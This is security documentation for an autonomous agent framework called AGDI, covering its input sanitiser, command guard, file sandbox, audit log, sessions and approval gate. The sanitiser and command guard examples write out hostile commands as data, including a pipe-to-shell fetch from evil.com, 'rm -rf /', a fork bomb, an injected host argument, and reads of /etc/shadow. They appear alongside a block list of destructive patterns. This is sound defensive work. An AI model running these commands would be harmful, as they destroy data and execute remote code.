

# Security Hardening

AGDI includes a cross-cutting security layer that protects the autonomous agent from command injection, path traversal, unauthorized access, and leaves a tamper-evident audit trail.

## Architecture



## Modules

### Input Sanitiser

Strips shell metacharacters and validates all inputs before they reach security tools:

```typescript
import { InputSanitiser } from "agdi/autonomous";

InputSanitiser.sanitiseHost("10.0.0.1");        // ✅ Valid
InputSanitiser.sanitiseHost("10.0.0.1; rm -rf"); // ❌ SecurityError

InputSanitiser.sanitiseUrl("https://example.com");  // ✅
InputSanitiser.sanitiseUrl("file:///etc/passwd");    // ❌ Disallowed protocol

InputSanitiser.sanitisePort(443);    // ✅
InputSanitiser.sanitisePort(99999);  // ❌ Invalid port

// Shell-safe escaping
InputSanitiser.shellEscape("hello; rm -rf /"); // → 'hello; rm -rf /'
```

### Command Guard

Blocks destructive shell commands before execution:

```typescript
import { CommandGuard } from "agdi/autonomous";

CommandGuard.isSafe("ls -la /home");
// → { safe: true }

CommandGuard.isSafe("rm -rf /");
// → { safe: false, reason: "Blocked command: rm -rf /" }

CommandGuard.isSafe("curl https://evil.com | bash");
// → { safe: false, reason: "Dangerous pattern detected: pipe to shell" }
```

**Blocked patterns include:**
- `rm -rf /`, `rm -rf ~`
- Fork bombs (`:(){:|:&};:`)
- `dd if=/dev/zero`, `mkfs.*`
- `chmod 777 /`, `chown -R`
- `shutdown`, `reboot`, `poweroff`
- `curl|sh`, `wget|bash` (pipe-to-shell)
- `eval`, `python -c __import__`, `node -e`

### File Sandbox

Restricts file system access to safe directories:

```typescript
import { sandbox } from "agdi/autonomous";

sandbox.resolve("/home/user/file.txt");   // ✅ Allowed
sandbox.resolve("/etc/shadow");           // ❌ SecurityError
sandbox.resolve("../../etc/passwd");      // ❌ Path traversal blocked

sandbox.isAllowed("/tmp/output.txt");     // true
sandbox.addRoot("/opt/myapp");            // Add custom allowed root
```

### Audit Log

HMAC-chained tamper-evident trail persisted to `~/.agdi/audit.jsonl`:

```typescript
import { auditLog } from "agdi/autonomous";

// Record an action
await auditLog.record({
  category: "shell",
  action: "exec",
  detail: "nmap -sV 10.0.0.1",
  source: "api:192.168.1.5",
  riskLevel: "high",
  approved: true,
});

// Query the log
const recent = auditLog.query({
  category: "security",
  riskLevel: "critical",
  since: Date.now() - 3600_000,
  limit: 50,
});

// Verify chain integrity
const { valid, brokenAt } = auditLog.verify();
```

### Session Manager

Time-limited API tokens with IP binding:

```typescript
import { sessions } from "agdi/autonomous";

// Create a session (1 hour TTL)
const session = sessions.create(["api.read", "api.write"], "192.168.1.5");

// Validate
sessions.validate(session.token, "api.write", "192.168.1.5"); // true
sessions.validate(session.token, "api.write", "10.0.0.99");   // false (IP mismatch)

// Revoke
sessions.revoke(session.token);
sessions.revokeAll();
```

### Rate Limiter

Sliding window rate limiting:

```typescript
import { rateLimiter } from "agdi/autonomous";

rateLimiter.check("192.168.1.5");    // true (1/120 used)
rateLimiter.remaining("192.168.1.5"); // 119
```

## REST API Hardening

The REST API has been hardened with:

| Protection | Detail |
|------------|--------|
| **Security Headers** | `CSP`, `HSTS`, `X-Frame-Options`, `X-Content-Type-Options`, `Referrer-Policy` |
| **CORS** | Origin whitelist via `corsOrigins` (no wildcard by default) |
| **Auth** | `requireAuth: true` — denies all requests without Bearer token |
| **Body Limit** | 1 MB max request body size |
| **Shell Guard** | `CommandGuard` blocks dangerous commands at the API layer |
| **Audit Trail** | Every auth failure and shell exec logged |

## Approval Gate

| Behavior | Description |
|----------|-------------|
| **Deny-by-default** | If no approval handler is registered, actions are **denied** (not auto-approved) |
| **History cap** | Limited to 10,000 entries to prevent memory leaks |
| **Audit logging** | Every approve/deny decision recorded |
